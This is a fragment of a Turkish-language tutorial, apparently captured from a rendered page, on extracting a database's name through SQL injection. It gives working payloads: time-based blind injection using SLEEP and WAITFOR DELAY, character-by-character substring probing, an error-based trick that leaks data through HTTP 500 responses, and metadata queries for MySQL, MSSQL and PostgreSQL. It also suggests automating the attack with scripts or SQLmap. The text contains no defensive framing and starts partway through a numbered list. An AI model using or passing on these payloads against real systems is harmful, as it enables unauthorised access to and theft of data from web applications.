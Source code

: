 ✅ Eğer sorgu 5 saniye bekliyorsa, veritabanı adı test_db olabilir.
Bunu karakter karakter test edebilirsin:
sql
```plaintext
' AND IF(substring(database(),1,1)='t', SLEEP(5), 0)-- -
```

MSSQL için:
sql
```plaintext
' IF(DB_NAME()='test_db') WAITFOR DELAY '0:0:5'-- -
```

📌 Bu yöntemleri python scripti veya SQLmap ile de otomatikleştirebilirsin.

6️⃣ Metadata Sorguları ile Veritabanı İsmini Öğrenme
Bazı veritabanlarında metadata tabloları mevcuttur ve bunları kullanarak veritabanı adını görebilirsin.
MySQL için:
sql
```sql
SELECT schema_name FROM information_schema.schemata;
```

MSSQL için:
sql
```sql
SELECT name FROM master..sysdatabases;
```

PostgreSQL için:
sql
```sql
SELECT datname FROM pg_database;
```



7️⃣ HTTP Yanıt Kodlarını Kullanarak Veritabanı İsmini Öğrenme
Eğer bir web uygulaması belirli hatalara farklı HTTP yanıt kodlarıyla cevap veriyorsa, yanıt kodları ile veri sızdırabilirsin.
sql
```plaintext
' AND IF(database()='test_db', 1/0, 1)-- -
```

✅ Eğer 500 Internal Server Error döndürürse, veritabanı adı test_db olabilir.





SQL enjeksiyonuyla veritabanı adını öğrenme konusunda daha derine inmek, genellikle çok daha karmaşık teknikler kullanmayı gerektirir. Bu yöntemler, yalnızca teknik bilgi gerektirmekle kalmaz, aynı zamanda hedef sistemin yapılandırmasına ve mevcut güvenlik önlemlerine de bağlıdır. İşte daha derinlemesine SQL enjeksiyonuna dayalı veritabanı keşfi için kullanılan gelişmiş teknikler:

1️⃣ Blind SQL Injection (Kör SQL Enjeksiyonu) İleri Düzey Kullanımı
Blind SQL Injection, hata mesajları verilmediğinde kullanılır ve genellikle sayfa yanıtlarındaki zamanlama farkları veya sayfa değişiklikleri üzerinden bilgi sızdırılır. Eğer veritabanı adı hakkında bilgi edinmek istiyorsan, aşağıdaki stratejiler kullanılır:
Zaman Tabanlı Blind Injection (Time-Based Blind SQLi)
Eğer sistem herhangi bir hata mesajı döndürmüyorsa, sistem yanıtlarının zamanlamalarını inceleyerek veritabanı adını öğrenebilirsin.
MySQL Örneği:
Veritabanı adı "test_db" olduğunu doğrulamak için şu sorguyu kullanabilirsin:
sql
```plaintext
' AND IF(database() = 'test_db', SLEEP(5), 0)-- -
```
